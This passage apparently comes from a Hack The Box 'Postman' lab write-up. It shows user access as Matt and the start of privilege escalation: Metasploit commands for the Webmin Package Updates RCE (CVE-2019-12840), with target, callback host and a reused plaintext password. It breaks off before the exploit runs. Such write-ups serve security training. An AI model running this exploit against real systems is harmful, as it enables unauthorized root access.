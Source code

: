 ```
Matt@Postman:~$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
Matt@Postman:~$ cat user.txt
517ad0*********************a2f3c
Matt@Postman:~$ 
```
**AND BOOM!! Not only we were successful at accessing the system as Matt, but we also found the user flag (obviously masked)!



## Privilege Escalation

Something to mention here before we start is that before moving forward we attempted to use the private key passphrase as Matt's password in Webmin successfully, which means the passphrase is also Matt's password on the system (something is commonly done and technically defeats the purpose of using private keys to authenticate through SSH.

This same password will be used when exploiting the 'Package Updates RCE' vulnerability (CVE-2019-12840) through the Metasploit module.

##### Using Metasploit:
```
root@kali:~/Documents/HTB-Labs/Postman# msfconsole
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v5.0.72-dev                          ]
+ -- --=[ 1962 exploits - 1095 auxiliary - 336 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > 
```
I am breaking the output here simply to explain that we are basically setting up the options that will be used by the exploit we will be using after calling it (in simpler terms).
```
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
RHOSTS => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set TARGETURI /
TARGETURI => /
msf5 exploit(linux/http/webmin_packageup_rce) > set TARGET 0
TARGET => 0
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.14.28
LHOST => 10.10.14.28
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
```